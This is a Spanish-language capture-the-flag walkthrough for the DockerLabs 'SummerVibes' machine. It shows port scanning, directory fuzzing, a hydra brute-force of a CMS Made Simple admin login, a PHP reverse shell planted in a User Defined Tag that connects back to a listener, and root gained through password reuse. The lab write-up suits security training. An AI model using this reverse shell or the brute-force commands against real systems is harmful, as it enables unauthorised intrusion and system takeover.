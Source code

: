 ```yaml
---
icon: flag
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# SummerVibes DockerLabs (Hard)

## Instalación

Cuando obtenemos el `.zip` nos lo pasamos al entorno en el que vamos a empezar a hackear la maquina y haremos lo siguiente.

```shell
unzip summervibes.zip
```

Nos lo descomprimira y despues montamos la maquina de la siguiente forma.

```shell
bash auto_deploy.sh summervibes.tar
```

Info:

```
                            ##        .         
                      ## ## ##       ==         
                   ## ## ## ##      ===         
               /""""""""""""""""\___/ ===       
          ~~~ {~~ ~~~~ ~~~ ~~~~ ~~ ~ /  ===- ~~~
               \______ o          __/           
                 \    \        __/            
                  \____\______/               
                                          
  ___  ____ ____ _  _ ____ ____ _    ____ ___  ____ 
  |  \ |  | |    |_/  |___ |__/ |    |__| |__] [__  
  |__/ |__| |___ | \_ |___ |  \ |___ |  | |__] ___] 
                                         
                                     

Estamos desplegando la máquina vulnerable, espere un momento.

Máquina desplegada, su dirección IP es --> 172.17.0.2

Presiona Ctrl+C cuando termines con la máquina para eliminarla
```

Por lo que cuando terminemos de hackearla, le damos a `Ctrl+C` y nos eliminara la maquina para que no se queden archivos basura.

## Escaneo de puertos

```shell
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn <IP>
```

```shell
nmap -sCV -p<PORTS> <IP>
```

Info:

```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-01-13 11:56 EST
Nmap scan report for express.dl (172.17.0.2)
Host is up (0.000026s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 d1:19:f1:fa:48:16:af:8a:4a:89:2d:78:89:e9:2d:94 (ECDSA)
|_  256 b8:b7:2e:64:3e:ee:c3:2e:2e:be:99:07:4e:02:4f:16 (ED25519)
80/tcp open  http    Apache httpd 2.4.52 ((Ubuntu))
|_http-server-header: Apache/2.4.52 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.14 seconds
```

Si inspeccionamos la pagina vemos el siguiente comentario.

```html
<!-- cms made simple is installed here - Access to it - cmsms -->
```

Puede ser que sea el nombre de un directorio, por lo que haremos lo siguiente:

```
URL = http://<IP>/cmsms/
```

Y veremos una pagina web normal, por lo que `fuzzearemos` un poco.

```shell
gobuster dir -u http://<IP>/cmsms/ -w <WORDLIST> -x html,php,txt -t 100 -k -r
```

Info:

```
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.17.0.2/cmsms/
[+] Method:                  GET
[+] Threads:                 100
[+] Wordlist:                /usr/share/wordlists/dirb/big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              php,txt,html
[+] Follow Redirect:         true
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.htaccess.html       (Status: 403) [Size: 275]
/.htpasswd.php        (Status: 403) [Size: 275]
/.htpasswd.html       (Status: 403) [Size: 275]
/.htaccess            (Status: 403) [Size: 275]
/.htpasswd.txt        (Status: 403) [Size: 275]
/.htpasswd            (Status: 403) [Size: 275]
/.htaccess.txt        (Status: 403) [Size: 275]
/.htaccess.php        (Status: 403) [Size: 275]
/admin                (Status: 200) [Size: 4568]
/assets               (Status: 200) [Size: 2145]
/config.php           (Status: 200) [Size: 0]
/doc                  (Status: 200) [Size: 24]
/index.php            (Status: 200) [Size: 19671]
/lib                  (Status: 200) [Size: 24]
/modules              (Status: 200) [Size: 3397]
/tmp                  (Status: 200) [Size: 1147]
/uploads              (Status: 200) [Size: 1543]
Progress: 81876 / 81880 (100.00%)
===============================================================
Finished
===============================================================
```

Vemos uno bastante llamativo llamado `admin`, que si entramos en el veremos un login de admin, por lo que le vamos a dar a `Forgot your password?` y pondremos `admin` para saber si el usuario existe, si lo hacemos vemos que existe, por lo que intentaremos fuerza bruta con `hydra` al login:

## Escalate user www-data

### Hydra

```shell
hydra -l admin -P <WORDLIST> <IP> http-post-form "/cmsms/admin/login.php:username=^USER^&password=^PASS^&loginsubmit=Submit:User name or password incorrect"
```

Info:

```
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-01-13 12:07:19
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking http-post-form://172.17.0.2:80/cmsms/admin/login.php:username=^USER^&password=^PASS^&loginsubmit=Submit:User name or password incorrect
[80][http-post-form] host: 172.17.0.2   login: admin   password: chocolate
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-01-13 12:07:21
```

Vemos que hemos encontrado las credenciales, por lo que nos conectaremos a la web con dichas credenciales y entraremos en el panel de `admin` si nos vamos a `extensions` -> `User Definded Tags` -> `Add User Defined Tag`

Veremos un cuadro en el que podremos meter codigo, por lo que meteremos lo siguiente:

```php
<?php
$sock=fsockopen("<IP>",<PORT>);$proc=proc_open("sh", array(0=>$sock, 1=>$sock, 2=>$sock),$pipes);
?>
```

Le ponemos como nombre `shell`.

<figure><img src="../../.gitbook/assets/image (161).png" alt=""><figcaption></figcaption></figure>

Le daremos a `Sumbit`, volvemos a entrar a `shell`, le daremos al boton `Apply` y antes de darle a `run` nos pondremos a la escucha.

```shell
nc -lvnp <PORT>
```

Una vez estando asi, le daremos a `run` en la pagina y cuando volvamos a la escucha veremos lo siguiente:

```
listening on [any] 7777 ...
connect to [192.168.120.128] from (UNKNOWN) [172.17.0.2] 42832
whoami
www-data
```

### Sanitizacion shell (TTY)

```shell
script /dev/null -c bash
```

```shell
# <Ctrl> + <z>
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=/bin/bash

# Para ver las dimensiones de nuestra consola en el Host
stty size

# Para redimensionar la consola ajustando los parametros adecuados
stty rows <ROWS> columns <COLUMNS>
```

## Escalate Privileges

Si reutilizamos la contraseña que encontramos en el panel de la pagina que era `chocolate` con `root`.

```shell
su root
```

Metemos como contraseña `chocolate` y veremos que somo el usuario `root`.
